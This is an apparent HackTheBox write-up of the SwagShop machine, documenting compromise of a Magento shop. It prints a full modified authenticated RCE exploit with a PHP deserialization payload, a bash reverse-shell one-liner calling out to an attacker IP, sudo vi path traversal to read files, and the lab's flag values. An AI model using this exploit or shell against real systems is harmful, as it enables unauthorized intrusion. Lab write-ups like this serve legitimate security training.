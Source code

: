 ```yaml
---
title: HackTheBox - SwagShop
date: 2020-12-26 18:10:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Magento, fixing exploit, SQLi, linpeas, sudo weak configuration, vi, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/SwagShop.png
---
```


## Foothold

### `nmap` scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN SwagShop-full-port-scan.txt 10.10.10.140
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache 2.4.18 (port 80) | Magento (open source e-commerce)

[http://10.10.10.140/](http://10.10.10.140/) seems to be an online shop with a **Magento** backend:

![shop](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/shop.png)

2014 is the last time the website was edited?! 

By navigating through the website, there is something strange that we can notice, directories are prefixed with `/index.php/`. This is probably due to **apache mod-rewrite misconfiguration**:

![strange](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/strange.png)

Thereby, I ran `dirb`:

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/dirb.png)

And we found an admin panel on [http://10.10.10.140/index.php/admin](http://10.10.10.140/index.php/admin):

![admin-panel](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/admin-panel.png)

#### exploit creates admin account  

Despite the fact that I don't know the version yet, I've researched some exploits but either they are outdated _(if we refer to the 2014 copyright)_, or they require authentication credentials, or they target specific magento plugins.

Except for this one [Magento eCommerce - Remote Code Execution](https://www.exploit-db.com/exploits/37977). I just changed line 5 and 13 because of the `/index.php` prefix:

![rce](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/rce.png)

An it worked:

![worked](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/worked.png)

I logged in and I didn't understand why I was redirected to this page first:

![png](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/png.png)

Then I changed the URL to [http://10.10.10.140/index.php/admin](http://10.10.10.140/index.php/admin) and I was redirected to the Magento's admin dashboard:

![magento-admin-panel](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/magento-admin-panel.png)

#### `magescan`

At this point, I looked for _"magento scanners"_ and I found this [one](https://github.com/steverobbins/magescan) (`magescan`):

![magescan-2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/magescan-2.png)

![magescan-1](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/magescan-1.png)

If we take a look at this URL that the scanner found &rarr; [http://10.10.10.140/app/etc/local.xml](http://10.10.10.140/app/etc/local.xml), we get mysql credentials in clear text:

![credentials](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/creds.png)

#### exploit remote code execution

Now that we know the version, we can take a look at the exploit which requires authentication: [Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution ](https://www.exploit-db.com/exploits/37811)

We fill these lines with the credentials created by the previous exploit, and the install date we saw on [http://10.10.10.140/app/etc/local.xml](http://10.10.10.140/app/etc/local.xml):

![exploit 2 args](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/exploit-2-help.png)

![config exploit 2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/exploit-2-config.png)

Then I encountered this error:

![error 2 exploit 2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/exploit-2-error-2.png)

I had to change line containing:

```python
request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
```

into:

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/2y.png)

Exploit after updates:

```python
from hashlib import md5
import sys
import re
import base64
import mechanize


def usage():
    print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
    sys.exit()


if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = 'forme'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
          '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
          'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
          'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
          '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
          ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                     len(arg), arg)
# Setup the mechanize browser and options
br = mechanize.Browser()
#br.set_proxies({"http": "localhost:8080"})
br.set_handle_robots(False)

request = br.open(target)

br.select_form(nr=0)
br.form.fixup()
br['login[username]'] = username
br['login[password]'] = password

br.method = "POST"
request = br.submit()
content = request.read()

url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)

request = br.open(url + 'block/tab_orders/period/2y/?isAjax=true', data='isAjax=false&form_key=' + key)

tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)

payload = base64.b64encode(payload)
gh = md5(payload + install_date).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh

try:
    request = br.open(exploit)
except (mechanize.HTTPError, mechanize.URLError) as e:
    print e.read()
```

Finally the exploit worked:

![exploit worked](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/success.png)

## Reverse shell (`www-data`)

```bash
$ python 37811.py http://10.10.10.140/index.php/admin/ "bash -c 'bash -i >&/dev/tcp/10.10.14.7/4444 0>&1'"
```

![sh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/sh.png)

![reverse-shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/reverse-shell.png)

Now that we have an acces to the machine's shell, let's do enumeration with **linpeas.sh**:

![sudo -l](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/linpeas.png)

Thanks to this misconfiguration with the wildcard we can read both user and root flags, using `vi` as follows:

## User (`haris`)

```bash
$ sudo /usr/bin/vi /var/www/html/../../../home/haris/user.txt
```

![harris](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/haris.png)

- flag: `a448877277e82f05e5ddf9f90aefbac8`

## Root

```bash
$ sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```

![root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/root.png)

- flag: `c2b087d66e14a652a3b86a130ac56721`
___

## Useful links

- [CVE-2015-1397](https://nvd.nist.gov/vuln/detail/CVE-2015-1397)
- [Magento eCommerce - Remote Code Execution](https://www.exploit-db.com/exploits/37977)
- [Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution ](https://www.exploit-db.com/exploits/37811)
